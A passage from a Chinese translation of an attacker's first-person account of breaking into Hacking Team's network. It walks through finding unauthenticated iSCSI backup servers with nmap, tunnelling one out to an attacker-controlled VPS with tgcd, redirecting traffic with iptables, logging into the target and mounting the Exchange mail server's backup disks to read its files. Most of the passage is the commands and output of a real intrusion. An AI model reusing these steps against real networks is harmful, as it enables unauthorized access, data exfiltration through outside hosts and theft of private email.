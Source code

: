 </pre>
<h2 nodeIndex="192">9、跨越网段</h2>
<p nodeIndex="193">其中比较有趣的是，其监控及抓取到的是Hacking Team正在开发恶意程序的网络摄像头画面，但是这些信息对于下一步计划来说并不是很有用。而其中不安全的备份正是我们可以利用的漏洞。根据以下文档[1]，他们的iSCSI系统应该是部署在一个隔离的网络中，但是nmap可以扫描到其在192.168.1.200/24子网中的部分地址，</p>
<pre nodeIndex="194">
<code nodeIndex="1071"><br nodeIndex="1072">...<br nodeIndex="1075">3260/tcp open  iscsi?<br nodeIndex="1078">| iscsi-info:<br nodeIndex="1081">|   Target: iqn.2000-01.com.synology:ht-synology.name<br nodeIndex="1084">|     Address: 192.168.200.66:3260,0<br nodeIndex="1087">|_    Authentication: No authentication required<br nodeIndex="1090">Nmap scan report for synology-backup.hackingteam.local (192.168.200.72)<br nodeIndex="1093">...<br nodeIndex="1096">3260/tcp open  iscsi?<br nodeIndex="1099">| iscsi-info:<br nodeIndex="1102">|   Target: iqn.2000-01.com.synology:synology-backup.name<br nodeIndex="1105">|     Address: 10.0.1.72:3260,0<br nodeIndex="1108">|     Address: 192.168.200.72:3260,0<br nodeIndex="1111">|_    Authentication: No authentication required<br nodeIndex="1116"></code>
</pre>
<p nodeIndex="195">因iSCSI系统需要关联一个内核模块，所以要将其编译为嵌入式系统中存在一定难度。随后，我通过端口转换，将其挂载到一个VPS（虚拟专用服务器），</p>
<pre nodeIndex="196">
<code nodeIndex="1117"><br nodeIndex="1118">VPS: tgcd -L -p 3260 -q 42838<br nodeIndex="1121">Sistema embebida: tgcd -C -s 192.168.200.72:3260 -c VPS_IP:42838<br nodeIndex="1124">VPS: iscsiadm -m discovery -t sendtargets -p 127.0.0.1<br nodeIndex="1129"></code>
</pre>
<p nodeIndex="197">iSCSI ，现在发现了 iqn.2000-01.com.synology的名字，但在将其挂载之前尚存在一些问题，因为它现在识别它的地址为192.168.200.72 以及 127.0.0.1。</p>
<p nodeIndex="198">为解决这个问题，执行以下操作，</p>
<pre nodeIndex="199">
<code nodeIndex="1130">iptables -t nat -A OUTPUT -d 192.168.200.72 -j DNAT --to-destination 127.0.0.1</code>
</pre>
<p nodeIndex="200">接着执行，</p>
<pre nodeIndex="201">
<code nodeIndex="1131">scsiadm -m node --targetname=iqn.2000-01.com.synology:synology-backup.name -p 192.168.200.72 --login
</code>
</pre>
<p nodeIndex="202">最后我们成功将其挂载上了。</p>
<pre nodeIndex="203">
<code nodeIndex="1132">vmfs-fuse -o ro /dev/sdb1 /mnt/tmp</code>
</pre>
<p nodeIndex="204">接着发现多个虚拟机的备份文件。Exchange邮件服务器让我最感兴趣。但它容量太大了，下载不了，但我们仍然可以远程将其挂载，并搜索有趣的记录。</p>
<pre nodeIndex="205">
<code nodeIndex="1133">$ losetup /dev/loop0 Exchange.hackingteam.com-flat.vmdk
$ fdisk -l /dev/loop0
/dev/loop0p1            2048  1258287103   629142528    7  HPFS/NTFS/exFAT

so the offset is 2048 * 512 = 1048576
$ losetup -o 1048576 /dev/loop1 /dev/loop0
$ mount -o ro /dev/loop1 /mnt/exchange/</code>
</pre>
<p nodeIndex="206">于文件目录，</p>
<pre nodeIndex="207">
<code nodeIndex="1134">/mnt/exchange/WindowsImageBackup/EXCHANGE/Backup 2014-10-14 <span nodeIndex="1135">172311</span></code>
</pre>
<p nodeIndex="208">我们发现虚拟机的硬盘驱动器，将之挂载，</p>
<pre nodeIndex="209">
<code nodeIndex="1136"><br nodeIndex="1137">dfuse -r -t VHD -f f0f78089-d28a-11e2-a92c-005056996a44.vhd /mnt/vhd-disk/<br nodeIndex="1140">mount -o loop /mnt/vhd-disk/Partition1 /mnt/part1</code>
</pre>
<p nodeIndex="210">最后我们现在已经接触到了核心的内容了，我们能够查看旧的Exchange邮件服务器的所有文件了。</p>
<pre nodeIndex="211">
<code nodeIndex="1143">[1] https://ht.transparencytoolkit.org/FileServer/FileServer/Hackingteam/InfrastrutturaIT/Rete/infrastruttura%20ht.pdf</code>
</pre>
<h2 nodeIndex="212">10、从安全备份到域管理</h2>
